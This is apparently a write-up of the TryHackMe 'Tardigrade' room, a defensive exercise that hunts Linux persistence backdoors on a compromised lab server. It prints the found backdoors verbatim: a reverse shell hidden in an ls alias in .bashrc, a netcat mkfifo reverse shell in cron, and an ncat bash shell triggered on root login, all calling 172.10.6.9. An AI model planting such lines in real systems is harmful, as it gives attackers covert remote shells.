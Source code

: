 ```yaml
---
title: Tardigrade_Room
date: 2023-8-27
categories: [Writeups, THM]
tags: [TAG]     # TAG names should always be lowercase

---
```

> Can you find all the basic persistence mechanisms in this Linux endpoint? 

![](https://firebasestorage.googleapis.com/v0/b/avatars-2aed4.appspot.com/o/5a8e7a7a02d75283f411004a07e7bfc6(1).png?alt=media&token=596dd21d-4694-49c4-8924-3b035a6aea67)

[room](https://tryhackme.com/room/tardigrade)

A server has been compromised, and the security team has decided to isolate the machine until it's been thoroughly cleaned up. Initial checks by the Incident Response team revealed that there are five different backdoors. It's your job to find and remediate them before giving the signal to bring the server back to production. 

To start our investigation, we need to connect to the server. The IR team has provided the credentials for use below and noted that the user has root privileges to the server. I'll help guide you along at first, but as we progress through each step, I'm sure you'll feel more comfortable solving these on your own.

**user: giorgio**

**password: armani**

---
# Task 1

1. **What is the server's OS version?**

> I searched for the command to get the release for the distro 

```
lsb_release -a 
``` 
![](https://1683260384-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FjSn1mytPOato4sbxsmGQ%2Fuploads%2FJNQucjPeMpa85JTKf2b9%2FScreenshot%20from%202023-08-16%2015-56-49.png?alt=media&token=67e4bf2f-e235-4364-9fac-66fc9c36be6b)

> Ubuntu 20.04.4 LTS

---

# Task 2 

 2. **What's the most interesting file you found in Giorgio's home directory?**
   
 > so we gone list all the files, directories, and the hidden ones 

 ```
 ls -la /home/giorgio 
 ```

 ![](https://1683260384-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FjSn1mytPOato4sbxsmGQ%2Fuploads%2FaxGDJRIYqBCsrz6x0bXx%2FScreenshot%20from%202023-08-16%2015-59-01.png?alt=media&token=1dcb69a8-cf9e-4735-944e-8a10123cdcb3)

 > .bad_bash

 - **Another file that can be found in every user's home directory is the .bashrc file. Can you check if you can find something interesting in Giorgio's .bashrc?**
  
```
nano .bashrc 
```
![](https://1683260384-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FjSn1mytPOato4sbxsmGQ%2Fuploads%2Fy65rLEoPK2hpr0CWefWx%2FScreenshot%20from%202023-08-16%2016-02-40.png?alt=media&token=74d8b014-79aa-44b9-b89e-24e9c3b52b8b)

```
ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'
```
- **It seems we've covered the usual bases in Giorgio's home directory, so it's time to check the scheduled tasks that he owns. Did you find anything interesting about scheduled tasks?**

```
crontab -e 
```
![](https://1683260384-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FjSn1mytPOato4sbxsmGQ%2Fuploads%2FZqxdKx31hNakT5wi3RDi%2FScreenshot%20from%202023-08-16%2016-08-28.png?alt=media&token=f034a915-3d97-4b10-9914-6dff2096b87b)

```
/usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f
```

---
# Task 4 

> *just sudo su and wait for a minute then press enter*

![](https://1683260384-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FjSn1mytPOato4sbxsmGQ%2Fuploads%2F8hhoCnEthBitKIbk0i2E%2FScreenshot%20from%202023-08-16%2016-12-33.png?alt=media&token=13f94ef5-baf6-4c6f-8061-edcfbaa98473)

- **A few moments after logging on to the root account, you find an error message in your terminal.**

```
Ncat: TIMEOUT.
```
- **After moving forward with the error message, a suspicious command appears in the terminal as part of the error message. What command was displayed?**

```
ncat -e /bin/bash 172.10.6.9 6969
```

- **You might wonder, "How did that happen? I didn't even do anything? I just logged as root, and it happened." Can you find out how the suspicious command has been implemented?**

```
.bashrc 
```
---
# Task 5 

> There's one more persistence mechanism in the system.
> A good way to systematically dissect the system is to look for "usuals" and "unusuals". For example, you can check for commonly abused or unusual files and directories.
> This specific persistence mechanism is directly tied to something (or someone?) already present in fresh Linux installs and may be abused and/or manipulated to fit an adversary's goals. What's its name?
> What is the last persistence mechanism?

> **we can look at the user's path**

```
cat /etc/passwd
```
![](https://1683260384-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FjSn1mytPOato4sbxsmGQ%2Fuploads%2FuI0Chl58gx1I6qDLVbGX%2F2023-08-19_05-28.png?alt=media&token=046f45b2-b91e-408e-93ce-32189c886224)

> **the answer is:  nobody**

---

# Task 6 

> **Finally, as you've already found the final persistence mechanism, there's value in going all the way through to the end.**
> 
> **The adversary left a golden nugget of "advise" somewhere.**
> 
> **What is the nugget?**

- **that task is about finding and persistence mechanisms in the system, lets check / and if there are any files like before**

```
ls -la / 
```
![](https://1683260384-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FjSn1mytPOato4sbxsmGQ%2Fuploads%2FfrHCqauZFA68DE7I0hTK%2FUntitled.png?alt=media&token=c372871e-a14c-45d6-858f-82c0f4696f0c)

> **let's check that directory**

```
cd /nonexistent/
```
![](https://1683260384-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FjSn1mytPOato4sbxsmGQ%2Fuploads%2F5y2N0rd30uOvY2KeEfa4%2FScreenshot%20from%202023-08-16%2016-19-53.png?alt=media&token=6daa83cc-6c23-4377-9ae7-867a60853a0d)

> **and here is the flag :)**